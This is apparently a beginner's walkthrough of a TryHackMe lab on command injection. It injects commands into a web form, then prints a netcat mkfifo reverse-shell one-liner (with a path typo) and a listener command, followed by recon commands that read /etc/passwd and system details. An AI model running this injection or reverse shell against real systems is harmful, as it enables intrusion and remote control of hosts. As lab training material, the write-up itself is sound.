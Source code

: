 ﻿# Write-Up for OWASP top 10 - tryhackme 

## [day 1] command injection practical

Hi Guys!
This is my very first Walkthrough/Write-Up. that will be in [OWASP Top 10](https://tryhackme.com/room/owasp10#) from [tryhackme](https://tryhackme.com) which is designed for the beginners in cyber security or who is interesting in pentesting I hope you find it useful 


#### [What strange text file is in the website root directory](#1-What-strange-text-file-is-in-the-website-root-directory)

#### [How many non-root/non-service/non-daemon user are there?](#-How-many-non-root/non-service/non-daemon-users-are-there?)
#### [what user is this app running as?](#3)
#### [what is the user's shell set as?](#4)
#### [what version of Ubuntu is running?](#5)
#### [print out the MOTD. what favorite beverage is shown](#6)

by entering the website associated with the IP, we will have a directory search page asking the user to enter a user by entering a random user the page will give an error message 
[error](/imgs/eroor.PNG)
but if i enter "root" the page will print a message with success
[suess](/imgs/success.PNG)
so now i will try yo inject it with a username and  command "root;ls"
[test1](/imgs/test1.PNG)
the message was success but with no output of the command this could indicate for a blind injection or the server is not vulnerable to command injection let's try in the recommended page < machine IP >/evilshell.php, this page ask the user to enter an command so let's try ls again without the username 
[#1i](/imgs/#1.PNG)
the output of the command will appear under the **"submit"** button so now we can start here 

you can present the output of the command in two ways one is in the web page but it will be out of order so we can upload revers shell and connected using netcat 
the command to upload the revers shell 
>rm /tmp/f;mkfifo /tmp/f;cat /tp/f|bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
make sure to change the IP and run this command in your terminal to listen 
> nc -lvnp 1234 
 to see more ways to revers shell [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/revers-shell-cheat-sheet)
 refresh the page and check your terminal you can execute the same command down there   
###  #1 What strange text file is in the website root directory
we start by showing the files by 
>ls 
maybe it seems to be normal to see  file extensions like (.doc, .txt, .pdf ,etc) on your PC but it is odd to see it in a web page, web page could have (css , .php extension , .js extension) 
[#1i](/imgs/#1.PNG)
### #2 How many non-root/non-service/non-daemon users are there? 
by executing 
> cat /etc/passwd 

[#2i](/imgs/#2.PNG)
will print all the user and you can find out  by looking for user with login 
the users with nologin are the (root, services, daemon) users 

### #3 	What user is this app running as?
this one is a straight foreword  by executing
> whoami

[#3i](/imgs/#3.PNG)
the username will be printed 
### #4  What is the user's shell set as?
the answer of this question will be printed with question 2 with the command 
>cat /etc/passwd

[#4i](/imgs/#2.PNG)
### #5 What version of Ubuntu is running?
I tried the suggested command 
>uname -a 
[#5.1](/imgs/#5.1.PNG)
but it doesn't show the version of Ubuntu so i used 
>  lsb_release -a

[#5.2](/imgs/#5.2.PNG)
### #6 print out the MOTD. what favorite beverage is shown?
the MOTD stands for message of the day can be configured in the /etc directory but we want to print we have 13 message but the hint pointing to  00-header so let print it 
>cat /etc/update-motd.d/00-header 
in the end of the file the mention a type of drink 
[#6i](./imgs/#6.PNG)

thanks 



